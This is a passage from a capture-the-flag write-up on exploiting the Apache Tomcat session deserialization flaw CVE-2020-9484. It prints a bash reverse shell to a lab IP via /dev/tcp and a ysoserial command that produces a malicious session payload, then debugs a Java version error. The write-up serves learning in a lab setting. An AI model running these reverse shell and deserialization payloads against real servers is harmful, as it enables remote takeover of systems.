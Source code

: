 Looking at the cookie we have a `JSESSIONID`. Looking for vulnerabilities I came across `CVE-2020-9484`

## Flag 1
### CVE-2020-9484

> [nist.gov](https://nvd.nist.gov/vuln/detail/CVE-2020-9484) - CVE-2020-9484
> 
> When using Apache Tomcat versions 10.0.0-M1 to 10.0.0-M4, 9.0.0.M1 to 9.0.34, 8.5.0 to 8.5.54 and 7.0.0 to 7.0.103 if a) an attacker is able to control the contents and name of a file on the server...
{: .prompt-info}

While looking for ways to exploit this vulnerability, I learned that a tool called `ysoserial` must be used.

> [GitHub](https://github.com/frohoff/ysoserial) - ysoserial
> 
> A proof-of-concept tool for generating payloads that exploit unsafe Java object deserialization.
{: .prompt-tip}

### Initial Access
Let's write a simple reverse shell payload and upload it.

```bash
#!/bin/bash
bash -I >& /dev/tcp/10.11.75.248/53 0>&1
```

After this, we can use `ysoserial` to generate a malicious payload that gets unsafely deserialized and executes our payload.

```console
m3ga@kali:~$ java -jar ysoserial-all.jar CommonsCollections2 'bash /usr/local/tomcat/temp/uploads/payload.sh' > chmodPayload.session
```

After trying to follow through with this [PoC](https://romanenco.medium.com/apache-tomcat-deserialization-of-untrusted-data-rce-cve-2020-9484-afc9a12492c4), I kept getting the following error:
```text
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Error while generating or serializing payload
java.lang.IllegalAccessError: class ysoserial.payloads.util.Gadgets (in unnamed module @0x6e0be858) cannot access class com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl (in module java.xml) because module java.xml does not export com.sun.org.apache.xalan.internal.xsltc.trax to unnamed module @0x6e0be858
	at ysoserial.payloads.util.Gadgets.createTemplatesImpl(Gadgets.java:102)
	at ysoserial.payloads.CommonsCollections2.getObject(CommonsCollections2.java:33)
	at ysoserial.payloads.CommonsCollections2.getObject(CommonsCollections2.java:27)
	at ysoserial.GeneratePayload.main(GeneratePayload.java:34)
```

After some googling, I realized that I have to use `openjdk-11`. I was using `openjdk-23` instead which is installed on `Kali Linux` by default.

